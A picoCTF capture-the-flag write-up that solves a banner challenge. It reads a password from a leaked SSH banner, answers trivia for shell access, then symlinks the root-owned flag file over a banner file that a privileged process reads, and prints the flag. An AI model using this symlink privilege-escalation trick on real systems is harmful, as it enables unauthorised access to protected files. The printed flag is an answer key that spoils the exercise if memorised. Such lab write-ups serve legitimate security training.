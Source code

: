 # Overview 
Category: [General Skills]()
AUTHOR: LOIC SHEMA / SYREAL

# Description
Can you abuse the banner?
Additional details will be available after launching your challenge instance.

# Solution
- **we're going to start by exploring the leaked information from the initial server by netcatting that host and port**
> ┌──(kali㉿kali)-[/]
└─$ nc tethys.picoctf.net 64478
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234

- **The Exploit**
  So now we have a password, we can see what it comes. We will step through a bit of questions and answers available on Google.

> ┌──(kali㉿kali)-[/]
└─$ nc tethys.picoctf.net 54610      

\*************************************
\*\*\*\*\*\*\*\*\*\*\*\*WELCOME\*\*\*\*\*\*\*\*\*\*\*\*
\*************************************

    what is the password? 
    My_Passw@rd_@1234
    What is the top cyber security conference in the world?
    DEFCON
    the first hacker ever was known for phreaking(making free phone calls), who was it?
    John Draper
    player@challenge:~$ ls
    banner text

>player@challenge:~$ cat banner
\*************************************
\*\*\*\*\*\*\*\*\*\*\*\*WELCOME\*\*\*\*\*\*\*\*\*\*\*\*
\*************************************
=> It is the code when I opened the connection

    player@challenge:~$ cat text
    keep digging

Now move to the root directory and get the flag?

    player@challenge:~$ cd /root
    player@challenge:/root$ ls
    flag.txt  script.py
    player@challenge:/root$ cat flag.txt
    cat: flag.txt: Permission denied

We have no permission to read it.We can try to symlink the flag to take the place of the banner, and see if it’s being read by something with a higher privilege level.

    player@challenge:/root$  ln -s /root/flag.txt ~/banner
    ln: failed to create symbolic link '/home/player/banner': File exists
    player@challenge:/root$ rm ~/banner
    player@challenge:/root$  ln -s /root/flag.txt ~/banner
    player@challenge:/root$ cd ~
    player@challenge:$ cat ~/banner
    cat: /home/player/banner: Permission denied

We still can’t cat this banner out, but it was served when we connected before, so what if we simply disconnect and reconnect?
>┌──(kali㉿kali)-[/]
└─$ nc tethys.picoctf.net 54610
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}

